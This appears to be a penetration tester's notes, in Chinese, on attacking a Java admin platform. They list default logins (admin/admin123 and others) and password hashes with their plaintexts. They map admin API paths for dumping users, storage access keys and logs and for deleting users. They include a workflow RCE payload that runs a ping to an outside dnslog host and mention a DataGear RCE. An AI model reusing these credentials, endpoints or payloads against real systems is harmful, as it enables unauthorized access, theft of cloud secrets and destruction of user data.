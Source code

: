 默认账户
admin admin123
test test123
hrmgr hr123


```
test123
bv1BUHrzxj5rXjwSBhwqrfoa8RgrUBK8bldbPKY62k6hkKN0zeOcz0Sztlto66M1G/c2Tz7qWWOHBtMQTdHBPQ==

$2a$10$mRMIYLDtRHlf6.9ipiqH1.Z.bh/R9dO9d5iHiGYPigi6r5KOoR2Wm
默认密钥密码admin123

$2a$04$5Kp7boZ/JfnMRNcSxZ3ItOaRM.Mmkdiyk3xKqNMCxCWMWdBwTY97y
admin1234
```

^
java解析js的RCE，java17如果默认不支持解析js。
<https://www.freebuf.com/articles/web/362360.html>
工作流：<https://blog.thatcoder.cn/wiki/YuDaoCloud/%E5%B7%A5%E4%BD%9C%E6%B5%81%E6%89%8B%E5%86%8C/%E5%B7%A5%E4%BD%9C%E6%B5%81%EF%BC%88Flowable%EF%BC%89%E4%BC%9A%E7%AD%BE%E3%80%81%E6%88%96%E7%AD%BE/%E5%B7%A5%E4%BD%9C%E6%B5%81%EF%BC%88Flowable%EF%BC%89%E4%BC%9A%E7%AD%BE%E3%80%81%E6%88%96%E7%AD%BE.html>

```
用户
/admin-api/system/user/page
/prod-api/admin-api/system/user/page



/infra/data-source-config
可能前后端分离


存储桶，存储位置，aksk
/admin-api/infra/file-config/page

数据源,无敏感信息
/admin-api/infra/data-source-config/list
/admin-api/infra/data-source-config/create

初始配置
/admin-api/infra/config/page
字典
/admin-api/system/dict-type/page



日志
/admin-api/infra/api-access-log/page
/admin-api/infra/api-error-log/page



删用户，最好delete方法
/admin-api/system/user/delete?id=4




工作流
/manager/model/list
/manager/model/edit
java.lang.Runtime.getRuntime().exec("ping hng2al.dnslog.cn");
```



^
## **jdbc**
DataGear全版本RCE

